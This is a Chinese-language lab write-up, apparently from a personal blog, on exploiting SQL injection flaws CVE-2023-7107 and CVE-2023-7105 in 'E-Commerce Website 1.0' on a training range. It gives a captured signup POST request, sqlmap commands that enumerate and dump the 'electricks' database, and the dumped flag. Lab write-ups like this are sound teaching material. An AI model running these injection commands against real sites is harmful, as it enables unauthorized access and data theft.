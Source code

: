 ```yaml
---
title: 春秋云镜 CVE-2023-7107 & CVE-2023-7105
tags: [penetration]
date: 2024-10-17 00:00:00
categories: [penetration]
excerpt: sqlmap的基础用法
---
```


## CVE-2023-7107

https://yunjing.ichunqiu.com/cve/detail/1153

```
E-Commerce Website 1.0 允许通过“/pages/user_signup.php”中的参数‘firstname’、‘middlename’、‘email’、‘address’、‘contact’和‘username’进行 SQL 注入。利用这个问题可能会使攻击者有机会破坏应用程序，访问或修改数据，或者利用底层数据库中的最新漏洞。
```

这道题给了路径和参数，就是一个普通的sqlmap调用就行了，但是网速太烂导致折腾了好久😶‍🌫️

> 我也不知道什么原因，物理机访问靶机完全没有问题，kali就只有偶尔能访问到，大部分时间都访问不到，并且kali里的burpsuite和sqlmap访问更是烂到飞起。
>
> 我也不知道这是啥原因，用的nat，为什么主机访问没啥问题虚拟机就巨烂
>
> 另外，我最终用主机装了个sqlmap去打，离谱的是不开代理也无法连接，开了代理才能打过去，并且速度极慢，暴数据库好久蹦一个字符出来，并且经常断联
>
> 我寻思这也不是国外的靶机啊？😶‍🌫️😶‍🌫️😶‍🌫️😶‍🌫️😶‍🌫️😶‍🌫️😶‍🌫️😶‍🌫️😶‍🌫️

> 破案了，估计是请求被封了，因为我重置了一下环境，变成新的url了，又能访问了，但是我不理解为什么我开着代理能够一直sqlmap打，按理说开着代理应该也不是一个动态的ip吧？😶‍🌫️

访问一下题目介绍说的路径，发现是一个注册账号的界面，要输入注册账号的各种信息，随便填了一下，发现是post传参，那就只能上burpsuite看一下参数了~~（用着痛苦的一b）~~

发送的请求就是这个样子，存成一个txt

```
POST /pages/user_signup.php HTTP/1.1
Host: eci-2ze8g9ev1y0tokeo9ti7.cloudeci1.ichunqiu.com
Content-Length: 162
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://eci-2ze8g9ev1y0tokeo9ti7.cloudeci1.ichunqiu.com/
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://eci-2ze8g9ev1y0tokeo9ti7.cloudeci1.ichunqiu.com/pages/user_signup.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=2a3447ac12e89ada859c7cb801bb826c
Connection: keep-alive

firstname=12313&middlename=123123123&lastname=13123123&email=113132123&address=13213123123&contact=12312312312&username=31231231231&password=3123123123123&submit=
```

sqlmap支持从文本中读取请求的内容

```zsh
python .\sqlmap.py -r .\123.txt --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36" --cookie="2a3447ac12e89ada859c7cb801bb826c" --batch -dbs
```

![](/img/pene/10.png)

这是在尝试了无数次之后的结果，全靠sqlmap会把前面暴出来的字符缓存下来😭

然后对着electricks暴表，剩下的没啥好说的

```zsh
python .\sqlmap.py -r .\123.txt --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36" --cookie="2a3447ac12e89ada859c7cb801bb826c" --batch -D electricks -tables
```

```zsh
python .\sqlmap.py -r .\123.txt --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36" --cookie="2a3447ac12e89ada859c7cb801bb826c" --batch -D electricks -T flllaaaag -columns
```

```zsh
python .\sqlmap.py -r .\123.txt --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36" --cookie="2a3447ac12e89ada859c7cb801bb826c" --batch -D electricks -T flllaaaag -C flag -dump
```

![](/img/pene/11.png)



## CVE-2023-7105

和上面的一样，都是告诉了注入点，这次是index.php的search，但实际会有三个参数

```
x=0&y=0&search=1231231
```

sqlmap试了一下默认用y注入的

依旧是物理机开代理才能打过去（总不能他把我ip所在子网给封了吧）😶‍🌫️

没啥好说的都一样

```
+--------------------------------------------+
| flag                                       |
+--------------------------------------------+
| flag{bbee852c-9dcb-45cb-a0fe-a23ab7b27877} |
+--------------------------------------------+
```

